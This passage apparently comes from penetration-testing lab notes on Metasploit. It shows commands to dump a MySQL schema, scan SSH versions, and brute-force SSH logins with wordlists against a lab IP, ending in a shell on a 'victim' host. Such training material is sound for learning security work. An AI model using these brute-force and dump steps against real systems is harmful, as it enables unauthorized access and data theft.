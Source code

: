 ```
msf5> use auxiliary/scanner/mysql/mysql_schemadump
msf5> run
```

<figure><img src="../../.gitbook/assets/91.png" alt=""><figcaption></figcaption></figure>

### SSH enumeration

* SSH (Secure Shell) is a remote administration protocol that offers enryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* We can utilize auxiliary modules to enumerate the version of SSH running on the target as well as perform brute-force attacks to identify passwords that can consequently provide us access to a target.

```
root@attackdefense> service postgresql start && msfconsole
msf5> workspace -a ssh_enum
msf5> setg rhosts 192.145.151.3
msf5> search type:auxiliary name:ssh
msf5> use auxiliary/scanner/ssh/ssh_version
msf5> run
```

<figure><img src="../../.gitbook/assets/92.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/scanner/ssh/ssh_login
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5> run

Ctrl+c

msf5> sessions 1
/bin/bash -i
sysadmin@victim-1> id
```
